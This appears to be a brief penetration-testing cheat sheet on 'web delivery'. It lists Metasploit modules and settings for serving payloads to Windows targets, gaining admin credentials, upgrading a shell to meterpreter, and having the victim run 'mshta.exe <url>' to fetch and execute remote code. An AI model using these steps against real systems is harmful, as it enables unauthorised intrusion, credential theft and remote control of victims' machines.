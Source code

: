 # Web Delivery

## Metasploit modules:

- multi/script/web_delivery : serves webpage with payload to run on target machine.
	- set target PSH\ (Binary)
	- set PSH-EncodedCommand false
	- get admin creds, if you can (run PrivescCheck in cmd)
	- once a cmd shell is obtained, run shell_to_meterpreter module 
	- set WIN_TRANSFER VBS (in shell_to_meterpreter)
- exploit/windows/misc/hta_server
	- in victim cmd session, execute the generated url with the cmd -
	- mshta.exe <url>
    
    On Attacker system - 
    
    ![hta_server](./images/webdelivery-01.png)

    On victim system -
    
    ![hta_server_victim](./images/webdelivery-02.png)
￼